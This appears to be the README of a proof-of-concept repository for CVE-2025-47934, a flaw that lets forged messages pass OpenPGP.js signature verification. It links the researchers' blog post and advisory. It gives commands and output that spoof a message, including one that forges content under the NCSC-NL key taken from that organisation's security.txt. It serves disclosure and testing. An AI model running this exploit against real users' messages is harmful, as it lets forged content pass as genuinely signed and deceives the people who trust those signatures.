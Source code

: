 # CVE-2025-47934

Spoofing of OpenPGP.js's signature verification.

For more information, see:

- Blog post with details: https://codeanlabs.com/blog/research/cve-2025-47934-spoofing-openpgp-js-signature-verification/
- Advisory: https://github.com/openpgpjs/openpgpjs/security/advisories/GHSA-8qff-qr5q-5pr8

## Usage

Test using your own signed message:

```
$ echo "hello world" | gpg -s -z0 > legit_signed_message.pgp
$ python generate_spoofed_message.py legit_signed_message.pgp > spoofed_message.asc
$ node validate_signature.js spoofed_message.asc <(gpg --export -a thomas@codean.io)
Signed message data: malicious
Verified signature by key id d45bb6865e5472ca: Thomas Rinsma <thomas@codean.io>
```

Or take someone else's signed message and spoof the contents:
```
# Extract victim's PGP key and a clear-signed message (security.txt in this case)
$ wget https://www.ncsc.nl/binaries/ncsc/documenten/publicaties/2025/januari/06/pgp-key/pgp.txt
$ wget https://www.ncsc.nl/.well-known/security.txt
# Generate the spoofed message
$ python extract_from_clearsign_and_spoof.py security.txt > spoofed_message.asc

$ node validate_signature.js spoofed_message.asc pgp.txt
Signed message data: Hello from Codean Labs.
Verified signature by key id cad4ceab247e705f: NCSC-NL 2025 <cert@ncsc.nl>,NCSC-NL 2025 general information <info@ncsc.nl>
```